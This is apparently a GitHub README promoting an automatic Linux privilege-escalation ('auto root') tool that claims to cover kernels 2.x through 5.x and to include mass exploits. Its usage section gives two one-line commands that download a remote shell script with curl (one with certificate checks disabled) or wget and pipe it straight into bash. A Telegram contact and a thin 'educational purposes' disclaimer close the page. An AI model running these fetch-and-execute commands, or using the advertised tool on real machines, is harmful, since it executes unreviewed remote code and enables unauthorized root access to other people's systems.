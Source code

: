 
<div align="center"><h1>Auto Root / Privilege Escalation Exploit By Haxorsec</h1></h1></div>
<br>

<div align="center">
  
![licence](https://img.shields.io/badge/LICENE-GPL2.0-ebcb8b?style=flat-square)
![version](https://img.shields.io/badge/VERSION-1.0.2-a3be8c?style=flat-square)
  
 </div>
<br>

<div align="center"><h1>Support & Features</h1></div>

<samp>
  
* Kernel 2x
  
* Kernel 3x
  
* Kernel 4x
  
* Kernel 5x
  
* TOP Exploit root
  
* All Mass Exploit

</samp>

<div align="center"><h1>How To Run ?</h1></div>


<div align="center"><h1>Curl</h1></div>

```
root@HaxorSec:~# bash -c "$(curl -fsSL https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh -k)"	
```

<div align="center"><h1>Wget</h1></div>

```
root@HaxorSec:~# bash -c "$(wget --no-verbose -O- https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.sh)"
```

<div align="center"><h1>Read this</h1></div>

<samp>

OpenSource Project By Haxorsec


<div align="center">
<img src="https://raw.githubusercontent.com/HaxorSecInfec/autoroot.sh/main/autoroot.png">  
</div>


<div align="center">
 <h1> Contact Me : </h1>
<a href="https://t.me/ntKiL22"><img src="https://img.shields.io/badge/Telegram-2CA5E0?style=for-the-badge&logo=telegram&logoColor=white" /></a>
</div>

</samp>

## Disclaimer

This repository is for educationnal purposes only.
Malicious usage of this repository will not hold the author responsible.
Do not pentest without explicit permissions.
